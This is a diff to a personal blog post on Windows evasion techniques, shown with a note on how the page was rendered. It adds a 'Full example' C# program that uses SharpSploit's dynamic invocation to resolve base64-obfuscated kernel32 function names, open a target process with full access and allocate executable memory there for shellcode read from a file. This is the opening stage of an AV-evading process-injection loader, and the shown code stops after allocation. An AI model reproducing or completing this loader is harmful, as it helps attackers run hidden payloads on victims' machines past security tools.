

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from _posts/2021-03-01-Windows-Evasion.md, in a window 1280 px wide and 1400 px high, scrolled down 7786 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2021-03-01-Windows-Evasion.md

````diff
--- a/_posts/2021-03-01-Windows-Evasion.md
+++ b/_posts/2021-03-01-Windows-Evasion.md
@@ -228,6 +228,50 @@ string opdec = Encoding.UTF8.GetString(openc);
 var pointer = Generic.GetLibraryAddress("kernel32.dll", opdec);
 ```
 
+#### Full example
+
+using System;
+using System.IO;
+using System.Runtime.InteropServices;
+using System.Text;
+using SharpSploit.Execution.DynamicInvoke;
+
+namespace testing D/Invoke
+{   class Program
+    {
+        static void Main(string[] args)
+        {
+            var b64_sc = File.ReadAllText(args[0]);
+            Console.WriteLine("[+] Read {0} bytes", b64_sc.Length);
+            var sc = System.Convert.FromBase64String(b64_sc);
+            Console.WriteLine("[+] Decoded it into {0} bytes", sc.Length);
+
+            string op = "T3BlblByb2Nlc3M="; // echo -n "API_NAME" | base64
+            byte[] openc = System.Convert.FromBase64String(op);
+            string opdec = Encoding.UTF8.GetString(openc);
+            var pointer = Generic.GetLibraryAddress("kernel32.dll", opdec);
+            var OpPr = Marshal.GetDelegateForFunctionPointer(pointer, typeof(OpPr)) as OpPr;
+            var hProcess = OpPr(0x001F0FFF, false, int.Parse(args[1]));
+            Console.WriteLine("[+] hProcess: 0x" + string.Format("{0:X}", hProcess.ToInt64()));
+
+            string va = "VmlydHVhbEFsbG9jRXg=";
+            byte[] vaenc = System.Convert.FromBase64String(va);
+            string vadec = Encoding.UTF8.GetString(vaenc);
+            pointer = Generic.GetLibraryAddress("kernel32.dll", vadec);
+            var VAx = Marshal.GetDelegateForFunctionPointer(pointer, typeof(VAx)) as VAx;
+            var alloc = VAx(hProcess, IntPtr.Zero, (uint)sc.Length, 0x1000 | 0x2000, 0x40);
+            Console.WriteLine("[+] Allocated: " + string.Format("{0}", alloc.ToInt64()));
+
+        }
+
+        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
+        delegate IntPtr OpPr(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);
+
+        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
+        public delegate IntPtr VAx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
+
+    }
+}
 
 
 
````
